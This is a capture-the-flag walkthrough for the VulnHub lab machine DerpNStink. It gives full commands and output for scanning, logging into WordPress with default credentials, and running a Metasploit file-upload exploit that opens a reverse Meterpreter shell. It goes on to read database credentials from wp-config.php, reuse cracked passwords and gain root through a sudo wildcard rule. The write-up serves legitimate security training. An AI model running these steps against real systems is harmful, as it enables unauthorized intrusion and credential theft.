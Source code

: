 DirtNStink

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
[+] Content Discovery
[+] WPscan - default admin credentials 
[+] Wordpress Plugin Exploit -  Slideshow
[+] Wireshark Pcap analysis
[+] Privilege Escalation Abusing SUDO rights /binaries/derpy*
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Scanning Results

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
map scan report for 192.168.56.101
Host is up (0.00083s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.2
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 12:4e:f8:6e:7b:6c:c6:d8:7c:d8:29:77:d1:0b:eb:72 (DSA)
|   2048 72:c5:1c:5f:81:7b:dd:1a:fb:2e:59:67:fe:a6:91:2f (RSA)
|   256 06:77:0f:4b:96:0a:3a:2c:3b:f0:8c:2b:57:b5:97:bc (ECDSA)
|_  256 28:e8:ed:7c:60:7f:19:6c:e3:24:79:31:ca:ab:5d:2d (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
| http-robots.txt: 2 disallowed entries 
|_/php/ /temporary/
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: DeRPnStiNK
MAC Address: 08:00:27:66:46:4B (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Analysing the source page of the http://192.168.56.101 we get the first flag:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# curl http://192.168.56.101
... snip ...
<--flag1(52E37291AEDF6A46D7D0BB8A6312F4F9F1AA4975C248C3F0E008CBA09D6E9166) -->

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Adding the host in /etc/hosts

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# cat /etc/hosts
127.0.0.1	localhost
127.0.1.1	kal1
192.168.56.101	derpnstink.local

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Dirb identified a /weblog that is hosted with wordpress

![Alt Tag](https://raw.githubusercontent.com/setrus/VulnHub/master/DerpNStink/derpnstink1.png)

Tying credentials admin:admin we are able to login.

After loggin in we identify a Slideshow plugin. 
Searching for an exploit on this wordpress plugin.

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
msf5 > search wp_slide

Matching Modules
================

   Name                                            Disclosure Date  Rank       Check  Description
   ----                                            ---------------  ----       -----  -----------
   exploit/unix/webapp/wp_slideshowgallery_upload  2014-08-28       excellent  Yes    Wordpress SlideShow Gallery Authenticated File Upload


msf5 > use exploit/unix/webapp/wp_slideshowgallery_upload
msf5 exploit(unix/webapp/wp_slideshowgallery_upload) > set wp_PASSWORD admin
wp_PASSWORD => admin
msf5 exploit(unix/webapp/wp_slideshowgallery_upload) > set wp_user admin
wp_user => admin
msf5 exploit(unix/webapp/wp_slideshowgallery_upload) > set rhosts 192.168.56.101
rhosts => 192.168.56.101
msf5 exploit(unix/webapp/wp_slideshowgallery_upload) > set targeturi /weblog/
target => /weblog/
msf5 exploit(unix/webapp/wp_slideshowgallery_upload) > run

[*] Started reverse TCP handler on 192.168.56.102:4444 
[*] Trying to login as admin
[*] Trying to upload payload
[*] Uploading payload
[*] Calling uploaded file bdelqqbz.php
[*] Sending stage (38247 bytes) to 192.168.56.101
[*] Meterpreter session 1 opened (192.168.56.102:4444 -> 192.168.56.101:44256) at 2019-10-19 21:08:37 -0400
[+] Deleted bdelqqbz.php

meterpreter > 
meterpreter > shell
Process 4508 created.
Channel 1 created.
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
python -c 'import pty;pty.spawn("/bin/bash");'
</html/weblog/wp-content/uploads/slideshow-gallery$ 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Getting database credentials:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
www-data@DeRPnStiNK:/var/www/html/weblog$ cat wp-config.php


/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', 'mysql');

/** MySQL hostname */
define('DB_HOST', 'localhost');

...snip...
/** Database Charset to use in creating database tables. */
define('DB_CHARSET', 'utf8');

/** The Database Collate type. Don't change this if in doubt. */
define('DB_COLLATE', '');
...snip ...
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Logging in into php admin we get the following usernames and passwords:

![Alt Tag](https://raw.githubusercontent.com/setrus/VulnHub/master/DerpNStink/derpnstink2.png)

Cracking the password hash we get the following credentials :

![Alt Tag](https://raw.githubusercontent.com/setrus/VulnHub/master/DerpNStink/derpnstink3.png)

We try to login with username : stinky and password: wedgie57


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
www-data@DeRPnStiNK:/var/www/html$ su stinky
su stinky
Password: wedgie57

stinky@DeRPnStiNK:/var/www/html$ id
id
uid=1001(stinky) gid=1001(stinky) groups=1001(stinky)
stinky@DeRPnStiNK:~/Desktop$ cat flag.txt
cat flag.txt
flag3(07f62b021771d3cf67e2e1faf18769cc5e5c119ad7d4d1847a11e11d6d5a7ecb)


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Pcap file

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
stinky@DeRPnStiNK:~/Documents$ ls -al
ls -al
total 4300
drwxr-xr-x  2 stinky stinky    4096 Nov 13  2017 .
drwx------ 12 stinky stinky    4096 Oct 20 00:37 ..
-rw-r--r--  1 root   root   4391468 Nov 13  2017 derpissues.pcap

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Copy the derpissue.pcap to /ftp folder.
Connect to FTP to download the pcap file

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
setrus@host:~$ ftp
ftp> open 192.168.56.101
Connected to 192.168.56.101.
220 (vsFTPd 3.0.2)
Name (192.168.56.101:setrus): stinky
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> cd files
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 1001     1001      4391468 Oct 20 04:45 derpissues.pcap
drwxr-xr-x    2 1001     1001         4096 Nov 12  2017 network-logs
drwxr-xr-x    3 1001     1001         4096 Nov 12  2017 ssh
-rwxr-xr-x    1 0        0              17 Nov 12  2017 test.txt
drwxr-xr-x    2 0        0            4096 Nov 12  2017 tmp
226 Directory send OK.
ftp> get derpissues.pcap
local: derpissues.pcap remote: derpissues.pcap
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for derpissues.pcap (4391468 bytes).
226 Transfer complete.
4391468 bytes received in 0.21 secs (19.5075 MB/s)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Analysing the file with wireshark we found the password for user mrderp.

![Alt Tag](https://raw.githubusercontent.com/setrus/VulnHub/master/DerpNStink/derpnstink4.png)

Connecting as mrderp : derpderpderpderpderpderpderp


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~/vulnhub/dirkNStink# ssh mrderp@192.168.56.101
Ubuntu 14.04.5 LTS


                       ,~~~~~~~~~~~~~..
                       '  Derrrrrp  N  `
        ,~~~~~~,       |    Stink      | 
       / ,      \      ',  ________ _,"
      /,~|_______\.      \/
     /~ (__________)   
    (*)  ; (^)(^)':
        =;  ____  ;
          ; """"  ;=
   {"}_   ' '""' ' _{"}
   \__/     >  <   \__/
      \    ,"   ",  /
       \  "       /"
          "      "=
           >     <
          ="     "-
          -`.   ,'
                -
            `--'

mrderp@192.168.56.101's password: 
Welcome to Ubuntu 14.04.5 LTS (GNU/Linux 4.4.0-31-generic i686)

 * Documentation:  https://help.ubuntu.com/

331 packages can be updated.
231 updates are security updates.

Last login: Mon Nov 13 01:03:13 2017 from 192.168.1.129
mrderp@DeRPnStiNK:~$ 

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Privilege Escalation:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
mrderp@DeRPnStiNK:~$ sudo -l
[sudo] password for mrderp: 
Matching Defaults entries for mrderp on DeRPnStiNK:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User mrderp may run the following commands on DeRPnStiNK:
    (ALL) /home/mrderp/binaries/derpy*
mrderp@DeRPnStiNK:~$ 
mrderp@DeRPnStiNK:~$ mkdir binaries
mrderp@DeRPnStiNK:~$ cd binaries/
mrderp@DeRPnStiNK:~/binaries$ echo '/bin/bash' > derpy.sh
mrderp@DeRPnStiNK:~/binaries$ chmod +x derpy.sh
mrderp@DeRPnStiNK:~/binaries$ sudo ./derpy.sh 
root@DeRPnStiNK:~/binaries# id
uid=0(root) gid=0(root) groups=0(root)
root@DeRPnStiNK:~/binaries# 

root@DeRPnStiNK:/root/Desktop# cat flag.txt
flag4(49dca65f362fee401292ed7ada96f96295eab1e589c52e4e66bf4aedda715fdd)

Congrats on rooting my first VulnOS!

Hit me up on twitter and let me know your thoughts!

@securekomodo

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

